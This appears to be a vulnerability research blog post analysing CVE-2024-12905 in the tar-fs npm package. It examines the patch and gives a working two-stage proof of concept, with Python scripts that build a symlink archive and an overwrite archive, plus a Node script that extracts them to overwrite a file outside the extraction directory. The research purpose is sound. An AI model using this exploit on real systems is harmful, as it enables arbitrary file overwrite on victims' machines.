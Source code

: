 ```yaml
---
title: CVE-2024-12905 - tar-fs Vulnerability Ananlysis and PoC
date: 2025-04-18 09:00:00 +0800
categories: [Vulnerability Research, Exploit Development]
tags: [arbitrary file write, file overwrite, link following]
math: true
mermaid: true
media_subpath: /assets/posts/2025-04-18-tarFs-PoC
image:
  path: preview.png
---
```


# Vulnerability anaylsis and PoC Development for CVE-2024-12905

## Introduction     
The `tar-fs` npm package is commonly used in JavaScript projects to pack and extract `.tar` archive files. However, a critical vulnerability ([CVE-2024-12905](https://github.com/advisories/GHSA-pq67-2wwv-3xjx)) affects several versions of this package — specifically:

- Versions from 0.0.0 before 1.16.4

- Versions from 2.0.0 before 2.1.2

- Versions from 3.0.0 before 3.0.7

This vulnerability allows attackers to craft malicious `.tar` archives that can write or overwrite files outside the intended extraction directory, potentially leading to arbitrary file write attacks. This kind of flaw poses a serious risk, especially in environments that automatically extract user-provided archives.

In this blog, we’ll dive into the `tar-fs` source code and analyze the relevant Git commits before and after the patch to understand how the vulnerability works. We'll also walk through the process of crafting a proof-of-concept (PoC) exploit to demonstrate its impact.

## Vulnerability Analysis
While researching recently published vulnerabilities for a new vulnerable machine concept, I came across **CVE-2024-12905**. The description immediately piqued my interest, and I was eager to replicate the vulnerability. However, I quickly realized that no public exploit code existed for it.

Determined to explore further, I decided to dive into the patch diffs myself to uncover exactly where the vulnerability was introduced—and more importantly, how it was fixed—so I could develop a working proof of concept (PoC).

Fortunately, the researchers who discovered the vulnerability referenced a specific commit hash in the `tar-fs` repository where the issue was addressed: [mafintosh/tar-fs@a1dd7e7](https://github.com/mafintosh/tar-fs/commit/a1dd7e7c7f4b4a8bd2ab60f513baca573b44e2ed).

Upon reviewing this commit, I noticed a number of key additions to the code that appeared to patch the underlying issue. 

First, on line `123`, a new line was introduced to retrieve the absolute path of the current working directory. This serves as a baseline for validating file paths during extraction.

Then, on lines `221` to `223`, an important security check was added. This logic ensures that when unpacking archives, symbolic links are verified to confirm they **do not** point to locations outside the current working directory.

As shown in *Figure 1*, new lines were added to perform these validation checks. This includes a call to the `inCwd()` function, which is responsible for ensuring that resolved paths stay within the current working directory.

The actual implementation of `inCwd()` can be seen in *Figure 2*.

![Additions to the code](github_commit_and_additions.png)  
*Figure 1: Key Code Additions*

![inCwd Code Addition](inCWD_code_addition.png)  
*Figure 2: Implementation of `inCwd()`*


From these observations, we can begin to pinpoint the core of the vulnerability. In the affected versions of `tar-fs`, it is possible to unpack `.tar` archives containing symbolic links that point **outside** the current working directory. This oversight could allow attackers to write or overwrite arbitrary files on the system by leveraging specially crafted archive contents.


## Exploit Development
After identifying the vulnerability i moved on to crafting an exploit to prove ths concept. From the vulnerabilty i came to understand that we could submit archives with symbolic links and the affected version of `tar-fs` would happily unpack it. The exploitation doesn't end here as there are two stages involved in successfully obtaining a file write/overwrite.

### Stage 1: Creating a tar archive with a symbolic link embedded
In this stage, we use Python to craft a `.tar` archive that contains a symbolic link. This symbolic link is configured to point to a specific target file on the system that we intend to overwrite during extraction. 

```python
import tarfile
import os

archive_name = 'stage_1.tar'
link_name = 'normal_file' 
symlink_target = '../../../../../../../../../home/mcsam/poc' # Replace with traversed path to the file you want to overwrite

# Create symbolic link
os.symlink(symlink_target, link_name)

# Archive the symbolic link
tar = tarfile.open(archive_name, 'w')
tar.add(link_name, recursive=False)
tar.close()
```

#### Expected Structure of the stage_1.tar File
When the archive is inspected using `tar -tvf`, it should look like this:
```
mcsam@0x32:~/tarfs-PoC$ tar -tvf stage_1.tar 
lrwxrwxrwx mcsam/mcsam       0 2025-04-18 15:06 normal_file -> ../../../../../../../../../home/mcsam/poc
```

When `stage_1.tar` is unpacked on the target system, the symbolic link `normal_file` will be dropped in the extraction directory. This sets up the environment for the next stage, where this symlink could potentially be used to overwrite the target file it points to.

### Stage 2: Creating stage_2 tar archive 
In this stage, we create another TAR archive named `stage_2.tar`. This archive contains a regular file with the same name as the symbolic link we created in Stage 1 (e.g., `normal_file`).

The contents of this new file represent the data we intend to write into the target file on the victim system — the one the symbolic link points to.

This can also be achieved using Python.
```python
import tarfile

path_to_file_to_archive = 'poc' 
archive_name = 'stage_2.tar'

tar = tarfile.open(archive_name, 'w')
tar.add(path_to_file_to_archive, 'normal_file') # normal_file: same name as the symbolic link
tar.close()
```

#### Expected Structure of the stage_1.tar File
When the archive is inspected using `tar -tvf`, it should look like this:
```
mcsam@0x32:~/tarfs-PoC$ tar -tvf stage_2.tar 
-rw-rw-r-- mcsam/mcsam      19 2025-04-18 15:16 normal_file
```

#### What Happens When stage_2.tar is Unpacked
When `stage_2.tar` is unpacked by the vulnerable `tar-fs` application, it attempts to write the file `normal_file` to the file system.

However, recall that a symbolic link named `normal_file` already exists on the target (created during Stage 1). As a result, when `tar-fs` tries to write to `normal_file` in its current working directory, it will **follow the symlink** and end up overwriting the actual file it points to: `../../../../../../../../../home/mcsam/poc.`

This allows us to effectively overwrite an arbitrary file on the target system, provided the process has the necessary write permissions to that file.

## Verifying/Testing The Exploit
First, we set up our environment using `npm` and install a vulnerable version of `tar-fs`:

```
npm install tar-fs@3.0.0
```

#### Extracing Stage 1
Next, we create a simple test script named `test.js` that uses tar-fs to extract a tar archive:
```javascript
const tar = require('tar-fs')
const fs = require('fs')

// Extract stage_1.tar
fs.createReadStream('stage_1.tar').pipe(tar.extract('./output'))
```

Run the script with:
```
node test.js
```

#### Extracting stage 2
Now, we update the script to extract `stage_2.tar` instead:
```javascript
const tar = require('tar-fs')
const fs = require('fs')

// Extract stage_2.tar
fs.createReadStream('stage_2.tar').pipe(tar.extract('./output'))
```
Run the script again and voilà — the path traversal takes effect.   
`/home/mcsam/poc` gets overwritten.

#### Verifying the exploit
![Final PoC](final_poc.png)

### References
- [https://github.com/advisories/GHSA-pq67-2wwv-3xjx](https://github.com/advisories/GHSA-pq67-2wwv-3xjx)
- [https://github.com/mafintosh/tar-fs/commit/a1dd7e7c7f4b4a8bd2ab60f513baca573b44e2ed](https://github.com/mafintosh/tar-fs/commit/a1dd7e7c7f4b4a8bd2ab60f513baca573b44e2ed)